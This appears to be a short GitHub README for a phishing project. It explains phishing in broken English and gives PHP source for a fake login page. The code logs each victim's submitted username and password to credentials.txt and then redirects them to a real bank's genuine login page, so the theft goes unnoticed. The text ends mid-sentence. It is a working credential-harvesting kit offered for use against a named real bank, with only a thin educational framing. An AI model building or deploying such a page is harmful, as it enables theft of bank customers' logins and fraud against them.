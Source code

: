 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 

for futher informations visit  https://unalupotha.blogspot.com/

How this web page work?

Once you visit this website you enter your user names passwords. All that cridentials can collect using txt file. This webpage create  
using html and php. 

Using this collect user cridentials and redirect them to that txt file.

<?php
 $username = $_POST["username"];
 $password = $_POST["passwd"];
 
 //Get credentials to .txt file
 $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
 $txt = "USERNAME = $username , PASSWORD = $password\n";
 fwrite($myfile, "\n". $txt);
 fclose($myfile);
 
 //Redirect the browser to original login page
 header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
 exit();

?>

and 






